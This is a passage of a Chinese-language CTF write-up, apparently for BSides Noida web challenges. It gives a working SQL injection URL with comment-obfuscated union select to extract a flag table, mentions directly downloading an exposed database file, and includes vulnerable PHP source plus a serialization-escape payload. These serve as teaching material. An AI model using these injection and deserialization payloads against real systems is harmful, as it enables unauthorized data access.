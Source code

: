![image-20210809143447236](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809143447236.png)

所以实际上前面不查询表名也可以。这里一样会回显出来。

```
http://ctf.babyweb.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/flag/**/from/**/flagsss),4,5,6
```

![image-20210809143558681](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809143558681.png)



这道题也有非预期，直接访问 karma.db 既可得到 flag 。。

![image-20210809162421050](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809162421050.png)

## Web2 wowooo

```php
<?php
include 'flag.php';
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";

$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug -->
```

反序列化逃逸。

`payload`:

```
flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}}}
```

![image-20210809143840587](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809143840587.png)
